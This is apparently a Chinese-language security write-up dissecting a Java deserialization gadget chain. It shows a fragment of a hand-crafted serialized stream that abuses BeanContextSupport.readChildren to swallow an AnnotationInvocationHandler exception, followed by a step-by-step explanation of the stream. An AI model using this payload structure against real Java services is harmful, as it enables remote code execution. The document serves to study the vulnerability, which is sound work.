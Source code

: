 ```java
                6182022883658399397L,       // serialVersionUID
                (byte) (SC_SERIALIZABLE | SC_WRITE_METHOD),
                (short) 2,                  // field count
                (byte) 'L', "type", TC_STRING, "Ljava/lang/Class;",         // type field
                (byte) 'L', "memberValues", TC_STRING, "Ljava/util/Map;",   // memberValues field
                TC_ENDBLOCKDATA,
                TC_NULL,                    // no superclass

                // (5) Field Values
                Templates.class,            // type field value
                map,                        // memberValues field value

                // note: at this point normally the BeanContextSupport.readChildren would try to read the
                // BCSChild; but because the deserialization of the AnnotationInvocationHandler above throws,
                // we skip past that one into the catch block, and continue out of readChildren

                // the exception takes us out of readChildren and into BeanContextSupport.readObject
                // where there is a call to deserialize(ois, bcmListeners = new ArrayList(1));
                // Within deserialize() there is an int read (0) and then it will read as many obejcts (0)

                TC_BLOCKDATA,
                (byte) 4,                   // block length
                0,                          // no BeanContextSupport.bcmListenes
                TC_ENDBLOCKDATA,

                // (6) value for the Proxy.h field
                TC_REFERENCE, baseWireHandle + offset + 16, // refer back to the AnnotationInvocationHandler

                TC_ENDBLOCKDATA,
        };
...
```
1. 构造`LinkedHashSet`的结构信息
2.  写入payload中`TemplatesImpl`对象
3.  构造`Templates Proxy`的结构，一共2个成员:
    1.  这里定义了一个虚假的`dummy`成员,后续赋值为`BeanContextSupport`对象，虚假成员也会进行反序列化操作
    2.  真实的`h`成员，后续赋值为`InvocationHandler`对象
4.  赋值`dummy`成员的值为`BeanContextSupport`对象，同时构建了其结构。这里为了`BeanContextSupport`对象反序列化时能走到`readChildren`方法，做了以下2个操作:
    1.  设置`serializable`>0
    2.  父类 `beanContextChildPeer`成员的值为当前对象: 由于`BeanContextChildSupport`对象已经出现过了,这里直接进行`TC_REFERENCE`引用对应的`Handle`
5.  插入非法的`AnnotationInvocationHandler`对象。前面分析过在`readChildren`方法中会再次进行`ois.readObject()`，因此会将此对象反序列化并且捕捉异常，产生一个Handle
6.  赋值`h`成员的值，这里使用`TC_REFERENCE`引用到刚刚产生的newHandle即可，需要手动计算handle值
